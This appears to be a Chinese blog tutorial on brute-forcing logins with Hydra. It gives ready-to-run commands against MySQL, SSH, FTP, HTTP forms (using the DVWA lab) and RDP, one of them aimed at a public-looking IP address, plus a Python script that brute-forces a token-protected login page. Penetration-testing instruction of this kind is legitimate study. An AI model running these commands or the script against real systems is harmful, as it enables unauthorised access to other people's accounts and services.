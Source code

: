 

# hydra

是黑客组织thc的一款开源密码攻击工具，功能十分强大，支持多种协议的破解，在KALI的终端中执行hydra -h可以看到详细介绍

语法: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [[service://server[:PORT\][/OPT]]](service://server[:PORT][/OPT]])

## 常用参数

Options:
-R 继续从上一次进度接着破解
-I 忽略已破解的文件进行破解
-S 采用SSL链接
-s PORT 指定非默认服务端口
-l LOGIN 指定用户名破解
-L FILE 指定用户名字典
-p PASS 指定密码破解
-P FILE 指定密码字典
-y 爆破中不使用符号
-e nsr "n"尝试空密码, "s"尝试指定密码，"r"反向登录
-C FILE 使用冒号分割格式，例如"登录名:密码"来代替-L/-P参数
-M FILE 每行一条攻击的服务器列表, ':'指定端口
-o FILE 指定结果输出文件
-b FORMAT 为-o FILE输出文件指定输出格式:text(默认), json, jsonv1
-f / -F 找到登录名和密码时停止破解
-t TASKS 设置运行的线程数，默认是16
-w / -W TIME 设置最大超时的时间，单位秒，默认是30s
-c TIME 每次破解等待所有线程的时间
-4 / -6 使用IPv4(默认)或IPv6
-v / -V 显示详细过程
-q 不打印连接失败的信息
-U 服务模块详细使用方法
-h 更多命令行参数介绍
server 目标DNS、IP地址或一个网段
service 要破解的服务名
OPT 一些服务模块的可选参数

支持的协议: adam6500、asterisk、cisco、cisco-enable、cvs、firebird、ftp、ftps、http[s]-{head|get|post}、http[s]-{get|post}-form、http-proxy、http-proxy-urlenum、icq、imap[s]、irc、ldap2[s]、ldap3[-{cram|digest}md5][s]、mssql、mysql、nntp、oracle-listener、oracle-sid、pcanywhere、pcnfs、pop3[s]、postgres、radmin2、rdp、redis、rexec、rlogin、rpcap、rsh、rtsp、s7-300、sip、smb、smtp[s]、smtp-enum、snmp、socks5、ssh、sshkey、svn、teamspeak、telnet[s]、vmauthd、vnc、xmpp

这款工具在KALI中自带

L后面是账号集，P后面是密码集，注意大小写，大写代表文件。如果账号集中有m个账号，密码集中有n个密码，那么Hydra就会尝试m×n次爆破。

## 破解mysql

下面以mysql为例，写一条爆破指令，假如C:\Users\cjx路径下有账号集文件username.txt，有密码集文件password.txt，那么对某IP的mysql服务进行爆破的命令就可以这么写（C:\Users\cjx路径下打开命令行）：

`hydra -L username.txt -P password.txt mysql`://目标IP:mysql端口号
1
如果服务使用的是默认端口，那么指令也可以这么写：

hydra -L username.txt -P password.txt 目标IP mysql
1
如果需要将爆破的过程打印出来就加个指令-v





## 破解SSH

`hydra -L user.txt -P passwd.txt -o ssh.txt -vV -t 5 10.96.10.252 ssh   #-L指定用户字典 -P 指定密码字典  -o把成功的输出到ssh.txt文件 -vV显示详细信息`

## 破解FTP

`hydra -L user.txt -P passwd.txt -o ftp.txt -t 5 -vV 10.96.10.208 ftp `#-L指定用户名列表 -P指定密码字典 -o把爆破的输出到文件 -t指定线程 -vV 显示详细信息 

## 破解HTTP

我们拿DVWA测试破解HTTP，破解HTTP，需要分析数据包的提交格式

### GET方式：

分析数据包，我们得到下面的命令

`hydra -L user.txt -P passwd.txt -o http_get.txt -vV 10.96.10.208 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect:H=Cookie: PHPSESSID=nvvrgk2f84qhnh43cm28pt42n6; security=low" -t 3`
#前面那些参数就不说了，主要说一下引号里面的数据 /vulnerabilities/brute/ 代表请求目录，用：分隔参数，^USER^和^PASS^代表是攻击载荷，F=后面是代表密码错误时的关键字符串 ，H后面是cookie信息

### POST方式： 

分析数据包，得到下面的破解命令

`hydra -L user.txt -P passwd.txt -t 3 -o http_post.txt -vV 10.96.10.183 http-post-form "/login.php:username=^USER^&password=^PASS^&Login=Login&user_token=dd6bbcc4f4672afe99f15b1d2c249ea5:S=index.php"`
#前面那些参数就不说了，主要说一下引号里面的数据 /login.php 代表请求目录，用：分隔参数，^USER^和^PASS^代表是攻击载荷，S等于的是密码正确时返回应用的关键字符串
但是新版的DVWA采用了token的验证方式，每次登录的token都是不一样的，所以不能用hydra来破解。目前，大多数网站登录都采用了token验证，所以，都不能使用Hydra来破解。

我们可以自己写一个python脚本来破解。 

```
# -*- coding: utf-8 -*-

"""
Created on Sat Nov 24 20:42:01 2018
@author: 小谢
"""
import urllib
import requests
from bs4 import BeautifulSoup

##第一步，先访问 http://127.0.0.1/login.php页面，获得服务器返回的cookie和token
def get_cookie_token():
    headers={'Host':'127.0.0.1',
             'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0',
             'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
             'Accept-Lanuage':'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
             'Connection':'keep-alive',
             'Upgrade-Insecure-Requests':'1'}
    res=requests.get("http://127.0.0.1/login.php",headers=headers)
    cookies=res.cookies
    a=[(';'.join(['='.join(item)for item in cookies.items()]))]   ## a为列表，存储cookie和token
    html=res.text
    soup=BeautifulSoup(html,"html.parser")
    token=soup.form.contents[3]['value']
    a.append(token)
    return a 
##第二步模拟登陆
def Login(a,username,password):    #a是包含了cookie和token的列表
    headers={'Host':'127.0.0.1',
             'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0',
             'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
             'Accept-Lanuage':'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
             'Connection':'keep-alive',
             'Content-Length':'88',
             'Content-Type':'application/x-www-form-urlencoded',
             'Upgrade-Insecure-Requests':'1',
             'Cookie':a[0],
             'Referer':'http://127.0.0.1/login.php'}
    values={'username':username,
            'password':password,
            'Login':'Login',
            'user_token':a[1]
        }
    data=urllib.parse.urlencode(values)
    resp=requests.post("http://127.0.0.1/login.php",data=data,headers=headers)
    return 
#重定向到index.php
def main():
    with open("user.txt",'r') as f:
        users=f.readlines()
        for user in users:
            user=user.strip("\n")                 #用户名
            with open("passwd.txt",'r') as file:
                passwds=file.readlines()
                for passwd in passwds:
                    passwd=passwd.strip("\n")   #密码
                    a=get_cookie_token()              ##a列表中存储了服务器返回的cookie和toke
                    Login(a,user,passwd)
                    headers={'Host':'127.0.0.1',
                              'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0',
                              'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
                              'Accept-Lanuage':'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
                              'Connection':'keep-alive',
                              'Upgrade-Insecure-Requests':'1',
                              'Cookie':a[0],
                              'Referer':'http://127.0.0.1/login.php'}
                    response=requests.get("http://127.0.0.1/index.php",headers=headers)
                    if response.headers['Content-Length']=='7524':    #如果登录成功
                       print("用户名为：%s ,密码为：%s"%(user,passwd))   #打印出用户名和密码
                       break
if __name__=='__main__':
    main()
```

脚本运行截图



## 破解3389远程登录

`hydra 202.207.236.4 rdp -L user.txt -P passwd.txt -V`

Kali自带密码字典
暴力破解能成功最重要的条件还是要有一个强大的密码字典！Kali默认自带了一些字典，在 /usr/share/wordlists 目录下

dirb

big.txt #大的字典
small.txt #小的字典
catala.txt #项目配置字典
common.txt #公共字典
euskera.txt #数据目录字典
extensions_common.txt #常用文件扩展名字典
indexes.txt #首页字典
mutations_common.txt #备份扩展名
spanish.txt #方法名或库目录
others #扩展目录，默认用户名等
stress #压力测试
vulns #漏洞测试
dirbuster


apache-user-enum-** #apache用户枚举
directories.jbrofuzz #目录枚举
directory-list-1.0.txt #目录列表大，中，小 big，medium，small
fern-wifi


common.txt #公共wifi账户密码
metasploit
metasploit下有各种类型的字典



wfuzz
模糊测试，各种字典



https://blog.csdn.net/qq_36119192/article/details/84325850#dirb



